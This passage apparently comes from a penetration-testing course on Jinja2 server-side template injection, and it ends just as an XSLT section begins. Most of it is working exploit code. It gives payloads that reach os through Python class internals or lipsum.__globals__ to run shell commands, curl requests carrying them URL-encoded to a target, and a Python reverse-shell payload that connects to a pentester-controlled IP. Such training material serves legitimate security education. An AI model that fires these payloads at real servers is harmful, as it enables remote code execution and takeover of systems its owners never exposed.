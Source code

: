 ```Python
{{ i }}
{{ ''.__class__.__mro__[1].__subclasses__()[i].__name__ }}
{% endfor %}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%25%20for%20i%20in%20range%28450%29%20%25%7D%0A%7B%7B%20i%20%7D%7D%0A%7B%7B%20%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5Bi%5D.__name__%20%7D%7D%0A%7B%25%20endfor%20%25%7D"
```
As you can see in the application's response, `catch_warnings` is located at index #214.
#### We have everything we need to construct an RCE payload, such as the following
```Python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system("touch /tmp/test1") }}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5B214%5D%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.system%28%22touch%20%2Ftmp%2Ftest1%22%29%20%7D%7D"
```

The application returns `0` in its response. This is the return of the value of the command we just executed. `0` indicates that the command was executed without errors.
#### Identify if `test1` was created using the following payload
```Python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('ls /tmp').read()}}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5B214%5D%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%27ls%20%2Ftmp%27%29.read%28%29%7D%7D"
```

Now that we have gone through the payload development process, it's worth mentioning that we can use some specific functions to facilitate the exploitation of Jinja2 SSTI vulnerabilities. Those are `request` and `lipsum`. Feel free to submit them to this section's target.
```python
{{lipsum.__globals__.os.popen('id').read()}}
```

```python
{{lipsum.__globals__.os.popen('id').read()}}
```
#### A reverse shell can also be established through a payload such as the below.
```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('python -c \'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<PENTESTER_IP>",<PENTESTER_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'').read()}}
```
## Attacking XSLT
#### Installation of Required Packages
```Shell
apt install default-jdk libsaxon-java libsaxonb-java
```
#### Create the following files: